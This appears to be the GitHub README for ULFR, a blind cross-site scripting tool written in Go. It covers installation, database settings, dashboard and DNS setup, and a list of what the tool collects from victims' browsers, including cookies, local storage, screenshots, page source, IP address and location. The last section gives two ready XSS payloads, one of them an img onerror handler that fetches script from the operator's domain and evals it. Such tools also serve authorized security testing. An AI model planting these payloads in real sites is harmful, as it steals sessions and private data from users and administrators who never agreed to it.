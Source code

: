 # ULFR | Blind XSS

### >_ Introduction

The most powerful Blind XSS tool of the universe.
- Easily Installation
- Fastest
- Multi-Platform Support
- Multi-Domain Support
- Custom Payloads (Subdomain or Path)

### >_ Installation

```
git clone https://github.com/barisbaydur/ulfr.git
cd ulfr
```

<b>HostName</b>, <b>Port</b> and <b>MYSQL</b> Settings from "<b>config/settings.go</b>" should be update.

```
// App Settings
var AppName string = "Ulfr"
var AppVersion string = "0.1.0"
var HostName string = "localhost"
var Port string = "80"

// MYSQL Settings
var MysqlHost string = "localhost"
var MysqlPort string = "3306"
var MysqlUser string = "root"
var MysqlPass string = ""
var MysqlDb string = "ulfr"
```
for compile:
```
go build .
```

no compile run:
```
go run .
```

### >_ Requirements
- Golang
- MYSQL

### >_ How to Use
After the program runs, the panel can be accessed by going to the "<b>/dashboard</b>" address of the hostname address specified in the <b>settings.go</b>.

The features to be seen in the panel are as follows:

| Feature     | Description |
| ----------- | ----------- |
| Domain      | To manage domain addresses |
| Path        | Management of which path or subdomain the payloads will be located in |
| Fire        | Triggered XSS will appear here. |

First of all, you must register a domain. There are two steps for this. 

1. Your domain DNS records should be as follows.

| DNS Record  | Name           | Value       |
| ----------- | -------------- | ----------- |
| A           | domain.com     | \<IP-Adress> |
| A           | *.domain.com   | \<IP-Adress> |

2. You must register the domain name on the domain page.

After this stage, you must add a path from the path page. There are two options for this.

1. Crate as a path.
example: domain.com/xss 

2. Create as a subdomain
example: xss.domain.com

:bulb: Paths are not case sensitive.

### >_ Features

1. Browser Informations
    * Available Screen Size
    * Full Screen Size
    * Browser Name
    * Browser User Agent
    * Default Language
    * Triggered URL
    * Local Storage Data
    * Referrer URL
2. User Informations
    * IP Address
    * Location Information (country, city, ASN etc.)
3. Site Informations
    * Full Screenshot
    * Source Code
    * Headers
4. Cookies
    * All Available Cookies
    * Cookies (CORS HTTP-ONLY Bypass) (Not Implemented Yet)
    * Cookies (Trace Method)

!!! note
    Do not run the application behind a tool like nginx and apache.

### >_ Example Payloads

* \<script src="domain.com/xss"></script>
* \<img src="x" onerror="fetch('\/\/domain.com/xss').then(response => response.text()).then(scriptText => eval(scriptText));">